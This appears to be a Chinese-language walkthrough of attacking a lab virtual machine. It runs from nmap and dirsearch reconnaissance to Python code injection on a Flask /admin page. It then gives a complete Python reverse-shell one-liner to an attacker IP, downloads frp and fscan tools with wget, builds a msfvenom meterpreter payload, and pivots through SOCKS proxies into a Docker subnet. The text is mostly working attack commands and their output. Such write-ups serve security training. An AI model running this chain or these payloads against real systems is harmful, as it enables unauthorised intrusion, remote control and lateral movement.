

nmap

```
主机发现，禁用端口扫描
nmap -sn 192.168.159.1/24

扫描开放端口
nmap -Pn 192.168.159.1/24

获取主机信息
nmap -p22,5000 -sV 192.168.159.134
nmap -A 192.168.159.134
```

```
┌──(root💀kali)-[/home/soyamilk/桌面/misc_ichunqiu]
└─# nmap -A 192.168.159.134
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-18 09:45 CST
Nmap scan report for 192.168.159.134 (192.168.159.134)
Host is up (0.00031s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 cc:53:20:b8:10:db:52:5f:16:02:bc:ee:57:22:80:e1 (DSA)
|   2048 01:50:f6:1f:32:e8:0d:fc:48:38:3e:c8:1b:ac:20:02 (RSA)
|   256 3b:ae:9a:bd:cb:ff:8f:54:64:32:ec:bf:38:fd:fe:6b (ECDSA)
|_  256 77:4e:8b:20:73:52:a4:ee:93:1d:b3:85:f2:25:d7:55 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15)
|_http-title: Leave a message
MAC Address: 00:0C:29:3E:BD:51 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.31 ms 192.168.159.134 (192.168.159.134)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.30 seconds

```

dirsearch扫描信息

```
python3 dirsearch.py -u http://192.168.159.134:5000 -e '*' -x 403,404 --random-agent

Extensions: php, jsp, asp, aspx, do, action, cgi, html, htm, js, tar.gz | HTTP method: GET | Threads: 25 | Wordlist size: 14594

Output File: /tools/dirsearch-0.4.3/reports/http_192.168.159.134_5000/_24-01-18_09-54-05.txt

Target: http://192.168.159.134:5000/

[09:54:05] Starting: 
[09:54:16] 200 -  401B  - /admin 
                                                                             
Task Completed
```

`/admin`页面测试

```python
__import__('os').system('ping 9859.5M7O9BPTY2.dns.xms.la')
```



反弹shell

```
nc -lvnp 45612
```


```python
import os,subprocess,socket
 
# 创建套接字 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)      # socket.AF_INET代表使用IPv4协议，socket.SOCK_STREAM 代表使用面向流的Tcp协议
 
# 创建通信
s.connect(('xxx.xxx.xxx.xxx',xxxxx))
 
# 重定向，保障通信的输入与输出
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
 
# 生成反弹的 shell 
p=subprocess.call(["/bin/sh","-i"])
 
# 使用时压缩上面的代码，以便 exec() 执行
import os,subprocess,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.159.128',45612));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```
┌──(root💀kali)-[/tools/dirsearch-0.4.3]
└─# nc -lvnp 45612                                                                                                                        1 ⨯
listening on [any] 45612 ...
connect to [192.168.159.128] from (UNKNOWN) [192.168.159.134] 42752
/app # 192.168.159.1 - - [03/Mar/2024 07:22:37] "POST /admin HTTP/1.1" 200 -
192.168.159.1 - - [03/Mar/2024 07:22:37] "GET /chrome-extension://kkggffkhdfcdcijcokeoajakgilejmka/resource/inject/content.js HTTP/1.1" 404 -
ls
Dockerfile
main.py
requirements.txt
templates
/app # pwd
/app
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/app # 
```

利用frp进行socks5代理

```
本机执行命令
┌──(root💀kali)-[/home/soyamilk/桌面/frp]
└─# ./frps -c frps.toml  
```


```
利用wget上传frpc，先用python开一个临时服务器
python3 -m http.server 60312

/app # wget http://192.168.159.128:60312/frpc -O ./           
Connecting to 192.168.159.128:60312 (192.168.159.128:60312)
wget: can't open './': Is a directory
/app # wget http://192.168.159.128:60312/frpc -O ./frpc
Connecting to 192.168.159.128:60312 (192.168.159.128:60312)
frpc                 100% |*******************************| 13624k  0:00:00 ETA

/app # wget http://192.168.159.128:60312/frpc.toml -O ./f.toml
Connecting to 192.168.159.128:60312 (192.168.159.128:60312)
f.toml               100% |*******************************|   260   0:00:00 ETA

/app # ls
Dockerfile
f.toml
frpc
main.py
requirements.txt
templates
/app # frpc -c f.toml
/bin/sh: frpc: not found
/app # ./frpc -c f.toml
/bin/sh: ./frpc: Permission denied
/app # chmod +x frpc
/app # ./frpc -c f.toml
2024/03/03 08:05:57 [I] [root.go:141] start frpc service for config file [f.toml]
2024/03/03 08:05:57 [I] [service.go:288] try to connect to server...
2024/03/03 08:05:57 [I] [service.go:279] [657ab565a2db142c] login to server success, get run id [657ab565a2db142c]                                                                                                    
2024/03/03 08:05:57 [I] [proxy_manager.go:173] [657ab565a2db142c] proxy added: [sell socks5]
2024/03/03 08:05:57 [I] [control.go:169] [657ab565a2db142c] [sell] start proxy success
2024/03/03 08:05:57 [I] [control.go:169] [657ab565a2db142c] [socks5] start proxy success

```

frpc.toml

```toml
serverAddr = "192.168.159.128"
serverPort = 7894

auth.token = "public"

[[proxies]]
name = "sell"
type = "tcp"
localIP = "127.0.0.1"
localPort = 22
remotePort = 8888

[[proxies]]
name = "socks5"
type = "tcp"
remotePort = 8889
[proxies.plugin]
type = "socks5"

```

frps.toml

```toml
# frps.toml
bindPort = 7894 # 服务端与客户端通信端口

auth.token = "public" # 身份验证令牌，frpc要与frps一致

# Server Dashboard，可以查看frp服务状态以及统计信息
webServer.addr = "0.0.0.0" # 后台管理地址
webServer.port = 7540 # 后台管理端口
webServer.user = "admin"
webServer.password = "admin"

```

设置代理

```
sudo cat /etc/proxychains4.conf > ./proxychains.conf    # 将系统级的配置文件复刻到当前目录的配置文件 proxychains.conf
vim ./proxychains.conf      # 只需要修改最后一行 socks4 127.0.0.1 9050 改为 socks5 192.168.159.128 8889
```

判断存活ip

```
┌──(root💀kali)-[/home/soyamilk/桌面/frp/frpc]
└─# proxychains4 -f ./proxychains.conf nmap -sn 172.17.0.0/24                                                                           130 ⨯
[proxychains] config file found: ./proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 16:15 CST
Nmap scan report for 172.17.0.1
Host is up.
Nmap done: 256 IP addresses (1 host up) scanned in 10.71 seconds

```

判断开启服务

```
┌──(root💀kali)-[/home/soyamilk/桌面/frp/frpc]
└─# proxychains4 -f ./proxychains.conf nmap -A 172.17.0.1  
[proxychains] config file found: ./proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 16:16 CST
[proxychains] Strict chain  ...  192.168.159.128:8889  ...  172.17.0.1:8888 <--socket error or timeout!
[proxychains] Strict chain  ...  192.168.159.128:8889  ...  172.17.0.1:8888 <--socket error or timeout!
[proxychains] Strict chain  ...  192.168.159.128:8889  ...  172.17.0.1:8888 <--socket error or timeout!
Nmap scan report for 172.17.0.1
Host is up (0.000058s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE    SERVICE    VERSION
5003/tcp filtered filemaker
8888/tcp open     tcpwrapped
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds

```

代理的好像不太行，利用相同方法上传fscan

>ps：proxychains只对tcp流量有效，所以udp和icmp都是不能代理转发的。
>
>使用namp进行扫描，nmap通过socks代理进行扫描，必须加上 -sT、-Pn两个参数

```
/app # wget http://192.168.159.128:60312/fscan -O ./fscan
Connecting to 192.168.159.128:60312 (192.168.159.128:60312)
fscan                100% |*******************************|  6119k  0:00:00 ETA

/app # ls
Dockerfile
f.toml
frpc
fscan
main.py
requirements.txt
templates
/app # chmod +x fscam
chmod: fscam: No such file or directory
/app # chmod +x fscan
```

fscan扫描

```
/app # ./fscan -h 172.17.0.1/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.17.0.2      is alive
(icmp) Target 172.17.0.1      is alive
(icmp) Target 172.17.0.3      is alive
[*] Icmp alive hosts len is: 3
172.17.0.1:22 open
172.17.0.3:9200 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://172.17.0.3:9200    code:200 len:337    title:None
[+] PocScan http://172.17.0.3:9200 poc-yaml-elasticsearch-unauth 
[+] PocScan http://172.17.0.3:9200 poc-yaml-elasticsearch-cve-2015-1427 
[+] PocScan http://172.17.0.3:9200 poc-yaml-elasticsearch-cve-2014-3120 
已完成 1/2 [-] ssh 172.17.0.1:22 root 123qwe ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain 
^C


/app # cat result.txt
172.17.0.1:22 open
172.17.0.3:9200 open
[*] WebTitle http://172.17.0.3:9200    code:200 len:337    title:None
[+] PocScan http://172.17.0.3:9200 poc-yaml-elasticsearch-unauth 
[+] PocScan http://172.17.0.3:9200 poc-yaml-elasticsearch-cve-2015-1427 
[+] PocScan http://172.17.0.3:9200 poc-yaml-elasticsearch-cve-2014-3120 

```

切换到msf使用msf进行测试

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.159.128 LPORT=23333 -a x86 --platform Linux -f elf > shell.elf
```

```
msf6 exploit(multi/handler) > use exploit/multi/handler 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 23333
LPORT => 23333
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT  23333            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:23333 
[*] Sending stage (1017704 bytes) to 192.168.159.134
[*] Meterpreter session 1 opened (192.168.159.128:23333 -> 192.168.159.134:51359) at 2024-03-03 19:55:14 +0800

meterpreter > 

```

arp查看其他主机

```
meterpreter > arp

ARP cache
=========

    IP address  MAC address        Interface
    ----------  -----------        ---------
    172.17.0.1  02:42:95:55:3e:ac
    172.17.0.3  02:42:ac:11:00:03

meterpreter > getuid
Server username: root
meterpreter > getpid
Current pid: 125
meterpreter > ps

Process List
============

 PID  PPID  Name       Arch    User  Path
 ---  ----  ----       ----    ----  ----
 1    0     python     x86_64  root
 12   1     [python]   x86_64  root
 82   1     [frpc]     x86_64  root
 121  1     sh         x86_64  root
 125  121   shell.elf  x86     root  /app/shell.elf

meterpreter > sysinfo
Computer     : 172.17.0.2                                            
OS           :  (Linux 3.13.0-24-generic)                            
Architecture : x64                                                   
BuildTuple   : i486-linux-musl                                       
Meterpreter  : x86/linux                                             
meterpreter >    
```

打通socks代理

`run autoroute -s 172.17.0.0/16 `

`run autoroute -p   `

```
meterpreter > run autoroute -s 172.17.0.0/16                         
                                                                     
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.                                                                  
[!] Example: run post/multi/manage/autoroute OPTION=value [...]      
[*] Adding a route to 172.17.0.0/255.255.0.0...                      
[+] Added route to 172.17.0.0/255.255.0.0 via 192.168.159.134        
[*] Use the -p option to list all active routes                      
meterpreter > run autoroute -p                                       
                                                                     
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.                                                                  
[!] Example: run post/multi/manage/autoroute OPTION=value [...]      
                                                                     
Active Routing Table                                                 
====================                                                 
                                                                     
   Subnet             Netmask            Gateway                     
   ------             -------            -------                     
   172.17.0.0         255.255.0.0        Session 1                   
                                                                     
meterpreter >  
```

搭建socks代理

```
msf6 exploit(multi/handler) > search socks

Matching Modules
================

   #  Name                                     Disclosure Date  Rank    Check  Description
   -  ----                                     ---------------  ----    -----  -----------
   0  auxiliary/server/socks_proxy                              normal  No     SOCKS Proxy Server
   1  auxiliary/server/socks_unc                                normal  No     SOCKS Proxy UNC Path Redirection
   2  auxiliary/scanner/http/sockso_traversal  2012-03-14       normal  No     Sockso Music Host Server 1.5 Directory Traversal


Interact with a module by name or index. For example info 2, use 2 or use auxiliary/scanner/http/sockso_traversal

msf6 exploit(multi/handler) > use auxiliary/server/socks4a
[-] No results from search
[-] Failed to load module: auxiliary/server/socks4a
msf6 exploit(multi/handler) > auxiliary/server/socks_proxy
[-] Unknown command: auxiliary/server/socks_proxy
This is a module we can load. Do you want to use auxiliary/server/socks_proxy? [y/N]   y
msf6 auxiliary(server/socks_proxy) > 

```

```
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen
                                       on all addresses.
   SRVPORT  23456            yes       The port to listen on
   VERSION  5                yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


View the full module info with the info, or info -d command.

msf6 auxiliary(server/socks_proxy) > run -d
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > sessions

Active sessions
===============

  Id  Name  Type                   Information        Connection
  --  ----  ----                   -----------        ----------
  1         meterpreter x86/linux  root @ 172.17.0.3  192.168.159.128:23333 -> 192.168.159.134:42116 (192.168.159.134)

msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy

```

```
┌──(root💀kali)-[/home/soyamilk/桌面/frp/frpc]
└─# proxychains4 -f ./proxychains.conf nmap -sT -Pn 172.17.0.3
[proxychains] config file found: ./proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-04 06:09 CST
[proxychains] Strict chain  ...  192.168.159.128:23456  ...  172.17.0.3:443 <--socket error or timeout!
[proxychains] Strict chain  ...  192.168.159.128:23456  ...  172.17.0.3:256 <--socket error or timeout!
....
[proxychains] Strict chain  ...  192.168.159.128:23456  ...  172.17.0.3:1011 <--socket error or timeout!
[proxychains] Strict chain  ...  192.168.159.128:23456  ...  172.17.0.3:34572 <--socket error or timeout!
[proxychains] Strict chain  ...  192.168.159.128:23456  ...  172.17.0.3:49152 <--socket error or timeout!
[proxychains] Strict chain  ...  192.168.159.128:23456  ...  172.17.0.3:1086 <--socket error or timeout!
Nmap scan report for 172.17.0.3
Host is up (0.0065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds


172.17.0.2端口存活情况

Nmap scan report for 172.17.0.2
Host is up (0.0056s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
9200/tcp open  wap-wsp

```

